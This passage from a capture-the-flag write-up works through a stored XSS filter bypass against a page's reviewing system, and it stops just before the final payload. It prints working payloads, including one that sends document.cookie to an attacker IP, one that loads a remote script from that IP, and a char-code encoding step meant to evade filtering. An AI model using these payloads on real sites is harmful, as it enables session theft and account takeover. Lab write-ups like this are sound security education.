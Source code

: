 
Back on the page, I can see my input:

![1567625462184](https://0xdfimages.gitlab.io/img/1567625462184.png)

So even if it’s not handled as HTML here, it may be by the reviewing system.

I’ll try a basic payload, `<script>alert('XSS')</script>`, not because I
expect it will pop on the site I see, but because seeing what comes back will
give me some insight into the filtering. After minute, I see the payload is a
bit mangled:

![1567625919678](https://0xdfimages.gitlab.io/img/1567625919678.png)

I started submitting more payloads from various XSS cheat sheets around the
internet, and eventually (after a _ton_ of trial and error) found this one:

    
    
    <img src="x` `<script>javascript:alert(1)</script>"` `>
    

It gets a bit mangled, but the script tags come through:

![1567627223012](https://0xdfimages.gitlab.io/img/1567627223012.png)

It seems to remove the quotes, but then not mess with the brackets that are
between the quotes.

I tried to use `<img src="x`
`<script>document.location='http://10.10.14.30/?c='+document.cookie</script>"`
`>` to get cookies, but it didn’t work. I noticed in the output that the `'`
were all removed:

![1567628085273](https://0xdfimages.gitlab.io/img/1567628085273.png)

I’ll try javascript that writes a script tag that is sourced back to me:

    
    
    <img src="x` `<script>document.write('<script src="http://10.10.14.30/0xdf.js"></script>');</script>"` `>`
    

Again, no love.

I’ll try encoding the inside. First I’ll use `python` to convert it to ints:

    
    
    >>> payload = '''document.write('<script src="http://10.10.14.30/0xdf.js"></script>');'''
    >>> ','.join([str(ord(c)) for c in payload])
    '100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,48,47,48,120,100,102,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59'
    

Now I make a payload:

    
    